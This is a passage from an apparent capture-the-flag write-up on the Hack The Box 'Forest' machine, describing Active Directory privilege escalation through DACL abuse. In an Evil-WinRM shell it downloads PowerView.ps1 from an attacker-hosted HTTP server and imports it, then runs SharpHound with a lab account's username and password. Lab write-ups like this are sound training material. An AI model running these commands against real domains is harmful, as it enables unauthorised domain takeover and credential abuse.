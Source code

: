 Now that we've got a user logon for the domain, we'll look at escalating this to Administrator level access.
I'll follow [this](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces) Red Team Notes article on how to exploit DACLs (Discretionary Access Control Lists) with write access.

The Microsoft article describing DACLs says "If a Windows object does not have a discretionary access control list, the system allows everyone full access to it". DACLs are a mechanism to explicitly revoke or grant access control entries. 

I'll host the `PowerView.ps1` file on my local box using the `python3 -m http.server` command, and then pull it from the FOREST machine using:
```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> iwr -uri http://10.10.14.37:8000/PowerView.ps1 -o PowerView.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> import-module ./PowerView.ps1
```

We can use PowerView to scrape users with DACL edits, but I've decided to use BloodHound to get the shortest path.
I spent hours trying to get BloodHound and the Digestor up and running, ultimately I deployed the `SharpHound.exe` to the box using a python http server, and ran it with the following command:
`*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> .\SharpHound.exe --collectionmethods all --domain htb.local --LdapUsername svc-alfresco --LdapPassword s3rvice`

Then I'll download it from the Evil-WinRM session and upload it to my BloodHound database.
![BloodHound_Stats](https://raw.githubusercontent.com/voided323/skills-github-pages/refs/heads/main/_posts/CTFs/Images/Forest_HTB/forest_bloodHound_stats.png)
